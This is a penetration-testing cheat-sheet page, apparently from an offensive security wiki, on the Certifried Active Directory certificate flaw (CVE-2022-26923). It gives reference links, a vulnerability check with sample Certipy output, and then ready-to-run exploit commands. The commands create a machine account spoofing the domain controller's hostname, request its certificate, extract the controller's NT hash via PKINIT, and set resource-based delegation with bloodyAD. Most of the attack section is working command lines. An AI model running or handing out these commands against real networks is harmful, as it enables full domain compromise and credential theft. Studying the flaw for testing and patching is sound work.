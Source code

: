 ```yaml
---
description: CVE-2022-26923
---
```


# dNSHostName Spoofing (Certifried)

- [https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)
- [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
- [https://www.semperis.com/blog/ad-vulnerability-cve-2022-26923/](https://www.semperis.com/blog/ad-vulnerability-cve-2022-26923/)
- [https://gist.github.com/Wh04m1001/355c0f697bfaaf6546e3b698295d1aa1](https://gist.github.com/Wh04m1001/355c0f697bfaaf6546e3b698295d1aa1)
- [https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e](https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e)
- [https://github.com/aniqfakhrul/certifried.py](https://github.com/aniqfakhrul/certifried.py)




## Check

If there's an object SID printed when requesting a certificate based on the User or Machine templates, the AD environment is **not** vulnerable:

```
$ certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -ca CorpCA -template User -dc-ip 192.168.1.11
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 120
[*] Got certificate with UPN 'snovvcrash@megacorp.local'
[*] Certificate object SID is 'S-1-5-21-1230029644-1443616230-1161330039-2139'  <== NOT vulnerable
[*] Saved certificate and private key to 'snovvcrash.pfx'
```




## Exploit

Create a new machine account with `dNSHostName` containing FQDN of a DC:

```
$ certipy account create -u snovvcrash@megacorp.local -p 'Passw0rd!' -target DC01.megacorp.local -user fakemachine -dns DC01.megacorp.local
```

Request a certificate on behalf of that machine account with spoofed `dNSHostName`:

```
$ certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -ca CorpCA -template Machine -dc-ip 192.168.1.11
```



### Abuse PKINIT

Authenticate with the obtained certificate and get DC's NT hash via PKINIT:

```
$ certipy auth -pfx dc01.pfx -dc-ip 192.168.1.11
```



### Abuse RBCD

- [https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)

Authenticate with obtained certificate and configure RBCD on a DC via [bloodyAD](https://github.com/CravateRouge/bloodyAD) to allow delegation to the fake machine account:

```
$ openssl pkcs12 -in dc01.pfx -out dc01.pem -nodes
$ python bloodyAD.py -d megacorp.local -c ":dc01.pem" --host 192.168.1.11 setRbcd 'fakemachine$' 'DC01$'
```




## About the Fix

- [https://blog.qdsecurity.se/2022/05/27/manually-injecting-a-sid-in-a-certificate/](https://blog.qdsecurity.se/2022/05/27/manually-injecting-a-sid-in-a-certificate/)
- [https://elkement.blog/2022/06/13/defused-that-san-flag/](https://elkement.blog/2022/06/13/defused-that-san-flag/)
